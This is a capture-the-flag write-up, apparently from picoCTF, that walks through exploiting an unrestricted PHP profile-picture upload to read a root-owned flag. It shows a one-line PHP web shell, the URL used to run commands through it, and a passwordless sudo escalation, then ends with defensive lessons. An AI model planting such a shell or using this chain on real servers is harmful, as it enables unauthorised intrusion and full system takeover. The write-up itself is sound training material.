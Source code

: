 ## 📄 Description
A developer added a profile picture upload feature to a website. However, it is vulnerable. Your goal is to explore the page, exploit the file upload functionality, and retrieve the hidden flag located in the `/root` directory.

## Solution Steps
- First, check how the web uploads files, including what language it uses and how file structure is.
- Examine the page source using `ctrl + u` : 
  <img width="1864" height="891" alt="image (1)" src="https://github.com/user-attachments/assets/0eeba5b2-2b45-4ac6-b154-727731204f18" />

- The site uses upload.php and stores uploaded files in the uploads/[file] directory
- For testing, we'll upload a web shell file named `shell.php` containing `<?php system($_GET['cmd']); ?>`. This file will give us **remote command execution (RCE)** from the browser. If successfully uploaded, we can run shell commands like `pwd, ls, cat` etc.
- After uploading shell.php, we see a confirmation message: `The file shell.php has been uploaded Path: uploads/shell.php`
  <img width="640" height="138" alt="image" src="https://github.com/user-attachments/assets/5273e2f5-ee35-4d23-baaf-28eb04478938" />
- We can now execute commands by accessing `http://standard-pizzas.picoctf.net:58432/uploads/shell.php?cmd=ls` which will display the contents of the uploads directory
  <img width="818" height="149" alt="image" src="https://github.com/user-attachments/assets/7bd80118-ff11-45bb-8e60-b6755f220e5e" />
- Next, we need to navigate to the /root folder, but first we should check our current location using the pwd command
  <img width="815" height="141" alt="image" src="https://github.com/user-attachments/assets/b1c6d7b5-4a9f-4d54-bcca-abf2d2c89577" />
- Since direct access to /root is denied (can't use ls /root directly), we'll run `sudo -l` to list commands we can run with sudo. This returns:
  <img width="1832" height="158" alt="image" src="https://github.com/user-attachments/assets/958dd189-e38b-4662-82a5-f41e89673b45" />
This means we can run any command as any user (including root) without a password
- We can now run `sudo ls /root` which shows flag.txt
  <img width="909" height="156" alt="image" src="https://github.com/user-attachments/assets/b808b732-3669-4757-b8b8-5e8012d8aab4" />
- so we execute `sudo cat /root/flag.txt` to show the flag
<img width="1001" height="141" alt="image" src="https://github.com/user-attachments/assets/5ba63396-114b-4807-8be7-21a408bc8372" />

## Conclusion
This challenge demonstrates how a seemingly harmless feature like file upload can lead to full system compromise when security best practices are ignored. By exploiting an unrestricted file upload and a dangerously configured sudo privilege, we gained root access and retrieved the flag. It reinforces the importance of input validation, proper server configuration, and applying the principle of least privilege. This is a solid example of a real-world vulnerability chain—from RCE to full privilege escalation.
